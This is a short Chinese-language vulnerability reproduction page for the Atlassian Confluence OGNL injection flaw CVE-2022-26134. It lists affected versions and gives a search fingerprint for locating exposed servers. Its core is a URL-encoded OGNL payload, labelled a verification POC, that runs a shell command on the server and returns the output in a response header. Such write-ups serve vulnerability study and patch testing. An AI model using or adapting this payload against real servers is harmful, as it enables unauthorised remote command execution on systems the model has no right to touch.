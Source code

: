 # Atlassian Confluence OGNL注入漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

## 漏洞影响

<a-checkbox checked>7.4.17</a-checkbox></br>

<a-checkbox checked>7.13.7</a-checkbox></br>

<a-checkbox checked>7.14.3</a-checkbox></br>

<a-checkbox checked>7.15.2</a-checkbox></br>

<a-checkbox checked>7.16.4</a-checkbox></br>

<a-checkbox checked>7.17.4</a-checkbox></br>

<a-checkbox checked>7.18.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-20220604093234758.png)

验证POC

```php
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

![img](../../../.vuepress/public/img/1654306027118-48bf3912-970a-403a-900a-dcfdd95b0cb9.png)